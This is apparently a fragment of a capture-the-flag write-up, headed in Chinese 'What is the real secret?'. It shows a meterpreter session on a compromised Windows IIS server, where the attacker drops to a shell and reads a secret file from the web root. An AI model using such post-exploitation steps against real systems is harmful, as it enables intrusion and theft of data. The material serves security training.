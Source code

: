 ```
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 04:30:24 -0400

```
### 真正的秘密是什麼？
```
meterpreter > cat c:\inetpub\wwwroot\realsecret.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > shell
Process 2472 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\inetpub\wwwroot               
cd c:\inetpub\wwwroot

c:\inetpub\wwwroot>type realsecret.txt

type realsecret.txt
The Flash is the fastest man alive
c:\inetpub\wwwroot>

```